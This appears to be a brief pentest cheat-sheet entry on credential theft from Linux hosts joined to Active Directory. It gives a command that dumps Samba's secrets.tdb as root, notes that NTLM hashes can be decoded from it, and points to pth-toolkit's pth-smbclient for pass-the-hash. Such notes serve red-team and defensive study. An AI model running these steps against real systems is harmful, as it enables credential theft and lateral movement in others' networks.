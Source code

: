 ```bash
# Assuming root access on Linux
tdbdump /var/lib/samba/private/secrets.tdb

# Assuming target hash trust with Active Directory, decode UTF-8 encoded "data" to get NTLM hashes

# Use pth-smbclient, from pth-toolkit, to pass-the-hash.
```

# References
[pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)